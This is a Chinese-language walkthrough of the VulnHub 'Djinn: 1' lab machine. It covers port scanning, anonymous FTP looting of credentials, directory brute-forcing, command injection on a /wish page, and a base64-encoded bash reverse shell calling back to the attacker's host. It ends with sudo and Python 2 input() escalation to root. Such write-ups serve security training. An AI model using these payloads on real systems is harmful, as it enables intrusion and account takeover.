





# DJINN: 1

> https://download.vulnhub.com/djinn/djinn.ova

靶场IP：`192.168.32.214`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.214
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 03:16 EDT
Nmap scan report for 192.168.32.214
Host is up (0.00070s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
22/tcp   filtered ssh
1337/tcp open     waste?
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.92%I=7%D=9/8%Time=631996C4%P=x86_64-pc-linux-gnu%r(NUL
SF:L,1BC,"\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x
SF:20_\x20_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20_
SF:_\x20___\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x
SF:20`\x20_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x2
SF:0`\x20_\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x
SF:20\|\x20\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|
SF:\x20\|\x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x
SF:20\|_\|\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n
SF:\nLet's\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\
SF:nAnswer\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20y
SF:ou\x20your\x20gift\.\n\(7,\x20'-',\x209\)\n>\x20")%r(RPCCheck,1BC,"\x20
SF:\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x20_\x20_\x2
SF:0__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20__\x20___\x2
SF:0\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x20`\x20_\x2
SF:0\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20
SF:\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x20\|\x20\|\
SF:x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x20\|_\|\\__
SF:_\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\nLet's\x20
SF:see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\nAnswer\x20
SF:my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20you\x20your\
SF:x20gift\.\n\(6,\x20'-',\x208\)\n>\x20");
MAC Address: 00:0C:29:C9:35:56 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.20 seconds

```

FTP匿名登录

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.214                                                                                                                                                    
Connected to 192.168.32.214.
220 (vsFTPd 3.0.3)
Name (192.168.32.214:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 21  2019 .
drwxr-xr-x    2 0        115          4096 Oct 21  2019 ..
-rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
-rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
226 Directory send OK.

```

下载文件

```
ftp> get creds.txt
local: creds.txt remote: creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for creds.txt (11 bytes).
226 Transfer complete.
11 bytes received in 0.01 secs (0.8511 kB/s)
ftp> get game.txt
local: game.txt remote: game.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for game.txt (128 bytes).
226 Transfer complete.
128 bytes received in 0.01 secs (11.3030 kB/s)
ftp> get message.txt
local: message.txt remote: message.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for message.txt (113 bytes).
226 Transfer complete.
113 bytes received in 0.01 secs (10.2940 kB/s)

```

查看文件

```
┌──(root💀kali)-[/tmp]
└─# cat creds.txt 
nitu:81299
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# cat game.txt     
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# cat message.txt 
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.

```

浏览器访问7331端口


爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -e -u http://192.168.32.214:7331/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.214:7331/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/09/08 03:31:15 Starting gobuster in directory enumeration mode
===============================================================
http://192.168.32.214:7331/wish                 (Status: 200) [Size: 385]
http://192.168.32.214:7331/genie                (Status: 200) [Size: 1676]
                                                                          
===============================================================
2022/09/08 03:35:32 Finished
===============================================================

```

访问`/wish`路径，可以有个命令执行窗口



返回结果



输入反弹shell

```
┌──(root💀kali)-[/tmp]
└─# echo 'bash -i >& /dev/tcp/192.168.32.130/1234 0>&1' |base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMyLjEzMC8xMjM0IDA+JjEK
```

```
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMyLjEzMC8xMjM0IDA+JjEK}|{base64,-d}|{bash,-i}'
```





找到一个密码

```
www-data@djinn:/opt/80$ cd /home
cd /home
www-data@djinn:/home$ ls
ls
nitish
sam
www-data@djinn:/home$ cd nitish
cd nitish
www-data@djinn:/home/nitish$ ls -al
ls -al
total 32
drwxr-xr-x 5 nitish nitish 4096 Nov 12  2019 .
drwxr-xr-x 4 root   root   4096 Nov 14  2019 ..
-rw------- 1 root   root    130 Nov 12  2019 .bash_history
-rw-r--r-- 1 nitish nitish 3771 Nov 11  2019 .bashrc
drwx------ 2 nitish nitish 4096 Nov 11  2019 .cache
drwxr-xr-x 2 nitish nitish 4096 Oct 21  2019 .dev
drwx------ 3 nitish nitish 4096 Nov 11  2019 .gnupg
-rw-r----- 1 nitish nitish   33 Nov 12  2019 user.txt
www-data@djinn:/home/nitish$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@djinn:/home/nitish$ cd .dev
cd .dev
www-data@djinn:/home/nitish/.dev$ ls -al
ls -al
total 12
drwxr-xr-x 2 nitish nitish 4096 Oct 21  2019 .
drwxr-xr-x 5 nitish nitish 4096 Nov 12  2019 ..
-rw-r--r-- 1 nitish nitish   24 Oct 21  2019 creds.txt
www-data@djinn:/home/nitish/.dev$ cat creds.txt
cat creds.txt
nitish:p4ssw0rdStr3r0n9

```

切换到nitish用户

```
nitish@djinn:~/.dev$ sudo -l
sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
nitish@djinn:~/.dev$ cd ..
cd ..
nitish@djinn:~$ cat user.txt
cat user.txt
10aay8289ptgguy1pvfa73alzusyyx3c

```

切换到sam用户

```
nitish@djinn:~$ 
sudo -u sam /usr/bin/genie -cmd id
my man!!
$ 

$ id
id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ whoami
whoami
sam

```

分析lago，发现输入num既可提权。

```python
strings /root/lago
#!/usr/bin/python2
from getpass import getuser
from os import system
from os.path import isfile
from random import randint
def naughtyboi():
    # TODO: Get some sexy news, if you know what I mean ;-)
    print("Working on it!! ")
def check(path):
    try:
        if isfile(path):
            return True
        else:
            return False
    except Exception:
        return False
def guessit():
    num = randint(1, 101)
    print("Choose a number between 1 to 100: ")
    try:
        s = input("Enter your number: ")
        if s == num:
            system("/bin/sh")
        else:
            print("Better Luck next time")
    except:
        print("Slow claps again")
def readfiles():
    user = getuser()
    try:
        path = raw_input("Enter the full of the file to read: ")
        if check(path):
            print("User %s is not allowed to read %s" % (user, path))
        else:
            print("Slow clap for this hacker right here")
    except Exception:
        print("Slow clap for this hacker right here")
def options():
    print("What do you want to do ?")
    print("1 - Be naughty")
    print("2 - Guess the number")
    print("3 - Read some damn files")
    print("4 - Work")
    try:
        choice = input("Enter your choice:")
    except Exception:
        print("\n")
    try:
        choice = int(choice)
        return choice
    except Exception:
        print("Man Stop hacking the damn input menu")
def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print("work your ass off!!")
    else:
        print("Do something better with your life")
if __name__ == "__main__":
    main(options())

```

提权到root用户

